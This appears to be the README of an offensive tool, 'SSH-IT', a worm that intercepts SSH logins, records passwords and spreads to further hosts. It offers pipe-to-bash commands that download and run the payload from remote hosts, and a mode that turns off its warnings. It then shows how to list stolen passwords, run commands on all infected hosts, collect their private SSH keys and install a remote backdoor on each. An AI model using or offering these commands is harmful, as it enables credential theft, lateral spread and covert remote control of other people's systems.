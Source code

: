 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```shell
~/.prng/thc_cli -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```shell
~/.prng/thc_cli -r uninstall
```

### ALPHA TESTING

This is PRE-RELEASE ALPHA STAGE for TESTING only.

Verbose mode (```THC_VERBOSE=1```) is enabled by default. The worm will stop after 2 hops (```THC_DEPTH=2```).

SETTINGS:
* ```THC_VERBOSE=1``` Display a warning when *ssh* is being intercepted (in bold red).
* ```THC_DEPTH=2``` The worm will not spread further than 2 hops away from the current host.
* ```THC_DEBUG=1``` Display debug information.
* ```THC_DEBUG_LOG=thc.log``` Output (most) debug information to ```thc.log```.

{:refdef: style="text-align: center;"}
![Verbose-Example](verbose-example.png)
{: refdef}

Take off all safety and run SSH-IT in release mode (*with no warnings*):
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Tips & Tricks
SSH-IT is controlled with ```thc_cli```.
```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

#### Remote Command Execution
Executing a command on _all_ hosts
```shell
~/.prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (```id_rsa```) from _all_ hosts:
```shell
~/.prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:
```shell
~/.prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

#### When HTTPS is not available
Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
chmod 755 ssh-it-deploy.sh && \
./ssh-it-deploy.sh
```

#### Help the team
Help us fix bug and send us ```thc.log``` if a boo-boo happens:
```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


